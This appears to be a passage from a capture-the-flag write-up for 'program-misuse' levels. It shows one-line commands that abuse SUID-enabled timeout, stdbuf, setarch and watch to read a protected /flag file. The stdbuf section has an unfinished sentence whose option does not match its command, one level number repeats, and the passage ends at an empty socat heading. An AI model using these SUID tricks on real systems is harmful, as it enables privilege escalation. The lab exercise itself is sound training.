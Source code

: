&nbsp;

## timeout

> I just set the SUID bit on /usr/bin/timeout.\
> Try to use it to read the flag!

The `timeout` utility sets a time limit on the execution of a command.

```
hacker@program-misuse~level28:/$ timeout 1 cat /flag
```

&nbsp;

## stdbuf

> I just set the SUID bit on /usr/bin/stdbuf.\
> Try to use it to read the flag!

The `stdbuf` utility adjusts buffering options for a command.

We can use the `-oL` option to 

```
hacker@program-misuse~level29:~$ stdbuf -i0 cat /flag
```

&nbsp;

## setarch

> I just set the SUID bit on /usr/bin/setarch.\
> Try to use it to read the flag!

The `setarch` utility sets the architecture for a command.

```
hacker@program-misuse~level30:/$ setarch -R cat /flag 
```

&nbsp;

## watch

> I just set the SUID bit on /usr/bin/watch.\
> Try to use it to read the flag!

The `watch` utility repeats a command at specified intervals.

```
hacker@program-misuse~level30:/$ watch -x cat /flag
```

&nbsp;

## socat

